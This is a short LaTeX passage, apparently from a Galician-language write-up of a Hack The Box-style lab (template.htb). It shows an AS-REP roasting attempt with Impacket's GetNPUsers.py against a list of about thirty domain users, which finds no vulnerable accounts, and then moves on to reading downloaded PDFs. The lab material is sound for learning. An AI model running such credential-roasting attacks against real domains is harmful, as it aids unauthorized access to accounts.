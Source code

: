 \documentclass[a4paper]{article}
\begin{document}
De novo probamos con ASREPROASTAttack:
        \begin{lstlisting}[language=Bash, caption=ASREPROASTAttack]
$ GetNPUsers.py template.htb/ -no-pass -usersfile creators.txt
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

[-] User Anita.Roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Brian.Baker doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Brian.Morris doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Daniel.Shelton doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Danny.Matthews doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Darryl.Harris doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User David.Mcbride doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User David.Reed doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User David.Wilson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Ian.Duncan doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jason.Patterson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jason.Wright doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jennifer.Thomas doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jessica.Moody doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User John.Coleman doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jose.Williams doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Kaitlyn.Zimmerman doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Kelly.Long doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Nicole.Brock doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Richard.Williams doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Samuel.Richardson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Scott.Scott doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Stephanie.Young doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Teresa.Williamson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Thomas.Hall doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Thomas.Valenzuela doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Tiffany.Molina doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Travis.Evans doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Veronica.Patel doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User William.Lee doesn't have UF_DONT_REQUIRE_PREAUTH set\end{lstlisting}

E de novo nada, sen éxito.
\subsubsection{Contido ficheiros descargados}
Como non tivemos sorte imos revisar o contido dos ficheiros por se atopamos algo de interese. Para iso, automatizamos a tarefa e convertimos os pdf a texto coa ferramenta \textbf{pdftotext}:
\end{document}
